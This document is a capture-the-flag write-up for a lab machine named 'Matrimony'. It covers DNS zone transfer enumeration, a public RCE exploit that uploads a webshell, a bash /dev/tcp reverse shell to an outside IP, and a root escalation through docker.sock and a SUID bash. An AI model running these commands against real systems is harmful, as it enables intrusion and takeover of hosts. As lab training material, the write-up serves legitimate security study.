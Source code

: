 # Matrimony

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 14:46 +08
Nmap scan report for 192.168.201.196
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
53/tcp    open     domain
80/tcp    open     http
```

DNS is open, so we likely need to find a domain name somewhere.

### DNS Enum

Port 80 just shows us a static site:

<figure><img src="../../../.gitbook/assets/image (2) (8).png" alt=""><figcaption></figcaption></figure>

There wasn't anything interesting about this site, so I went back to DNS. Similar to HTB, some machines from PGP tend to have domain names we just enter into our `/etc/hosts` file. I entered a few like `matrimony.pg`, `matrimony.offsec` and `matrimony.off`.

Then, I tested each domain with `dig` to see which exists. `matrimony.off` reveals the most information:

```
$ dig axfr @192.168.201.196 matrimony.off

; <<>> DiG 9.18.12-1-Debian <<>> axfr @192.168.201.196 matrimony.off
; (1 server found)
;; global options: +cmd
matrimony.off.          604800  IN      SOA     matrimony.off. root.matrimony.off. 4 604800 86400 2419200 604800
matrimony.off.          604800  IN      NS      matrimony.off.
matrimony.off.          604800  IN      A       127.0.0.1
matrimony.off.          604800  IN      AAAA    ::1
prod99.matrimony.off.   604800  IN      CNAME   matrimony.off.
matrimony.off.          604800  IN      SOA     matrimony.off. root.matrimony.off. 4 604800 86400 2419200 604800
;; Query time: 164 msec
;; SERVER: 192.168.201.196#53(192.168.201.196) (TCP)
;; WHEN: Sat Jul 15 14:53:15 +08 2023
;; XFR size: 6 records (messages 1, bytes 226)
```

It also finds another subdomain at `prod99`.&#x20;

### Matrimonial Website --> RCE

The `prod99` domain shows us this marriage website:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

I created an account on the website and found that it runs on PHP. I checked around for exploits for 'matrim':

```
$ searchsploit matrim
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
2DayBiz Matrimonial Script - 'smartresult.php' SQL Injecti | php/webapps/14073.txt
2DayBiz Matrimonial Script - SQL Injection                 | php/webapps/14008.txt
2DayBiz Matrimonial Script - SQL Injection / Cross-Site Sc | php/webapps/14047.txt
Advanced Matrimonial Script 2.0.3 - SQL Injection          | php/webapps/41521.txt
Entrepreneur Matrimonial Script - Authentication Bypass    | php/webapps/41046.txt
Hindu Matrimonial Script - Authentication Bypass           | php/webapps/41044.txt
i-Net Solution Matrimonial Script 2.0.3 - 'alert.php' Cros | php/webapps/34252.txt
Matri4Web Matrimony Website Script - Multiple SQL Injectio | php/webapps/46591.txt
Matrimonial Script - SQL Injection                         | php/webapps/42545.txt
Matrimonial Script 2.7 - Authentication Bypass             | php/webapps/42566.txt
Matrimonial Website Script 1.0.2 - SQL Injection           | php/webapps/40416.txt
Matrimonial Website Script 2.1.6 - 'uid' SQL Injection     | php/webapps/43965.txt
Matrimony Script - Cross-Site Request Forgery              | php/webapps/10517.txt
Matrimony Script 2.7 - SQL Injection                       | php/webapps/42496.txt
Multireligion Responsive Matrimonial 4.7.2 - 'succid' SQL  | php/webapps/43299.txt
Multireligion Responsive Matrimonial Script 4.7.1 - SQL In | php/webapps/41530.txt
Muslim Matrimonial Script 3.02 - 'succid' SQL Injection    | php/webapps/43310.txt
Online Matrimonial Project 1.0 - Authenticated Remote Code | php/webapps/49183.py
PHP Matrimonial Script 3.0 - SQL Injection                 | php/webapps/41525.txt
Responsive Matrimonial Script 4.0.1 - SQL Injection        | php/webapps/41533.txt
Zeeways Matrimony CMS - SQL Injection                      | php/webapps/46603.txt
----------------------------------------------------------- ---------------------------------
```

Tons of exploits, and there is one script out of all of them. I tried that first, and it worked:

```
$ python2 49183.py http://prod99.matrimony.off/ test123 test123
___  ___              _  _          _      ______  _____  _____
|  \/  |             (_)| |        | |     | ___ \/  __ \|  ___|                             
| .  . |  __ _  _ __  _ | |_  __ _ | |     | |_/ /| /  \/| |__                               
| |\/| | / _` || '__|| || __|/ _` || |     |    / | |    |  __|                              
| |  | || (_| || |   | || |_| (_| || |     | |\ \ | \__/\| |___                              
\_|  |_/ \__,_||_|   |_| \__|\__,_||_|     \_| \_| \____/\____/                              
                                                                                             
[+] logging...                                                                               
[+] Successfully retrieved user [ID].
[+] Successfully uploaded.
[+] Connecting to webshell...
[+] Successfully connected to webshell.
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam)
```

From here, we can easily get a reverse shell:

```
$ bash -c 'bash -i >& /dev/tcp/192.168.45.189/21 0>&1'
```

<figure><img src="../../../.gitbook/assets/image (11) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Docker.Sock --> Root

If we check `ifconfig`, we can find some Docker instanceis running since the IP of this machine is 172.17.0.1:

```
sam@matrimony:/home/sam$ ifconfig                                                            
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500                                
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255                       
        ether 02:42:58:23:b6:06  txqueuelen 0  (Ethernet)
        RX packets 19  bytes 4172 (4.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19  bytes 4427 (4.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We can `ssh` into 172.17.0.2 as `root`:

<figure><img src="../../../.gitbook/assets/image (12) (16).png" alt=""><figcaption></figcaption></figure>

We can find the `docker.sock` file in both machines:

```
root@9079b6b2d2fb:/tmp# find / -name docker.sock 2>/dev/null
/run/docker.sock
```

This machine doesn't have `docker`, so we can download the binary itself from our machine. This takes a while. When it's done, we can check the images present:

```
root@9079b6b2d2fb:/tmp# ./docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
<none>       <none>    73aebf20ceb1   14 months ago   223MB
ubuntu       latest    3f4714ee068a   14 months ago   77.8MB
```

We can mount back onto the first image:

```
./docker -H unix:///run/docker.sock run -it -v /:/mnt 73aebf20ceb1 bash
```

<figure><img src="../../../.gitbook/assets/image (3) (5).png" alt=""><figcaption></figcaption></figure>

To get a `root` shell, simply run `chmod u+s /mnt/bin/bash`. Exit the docker container back onto the host machine and run `bash -p`:

<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

Rooted!
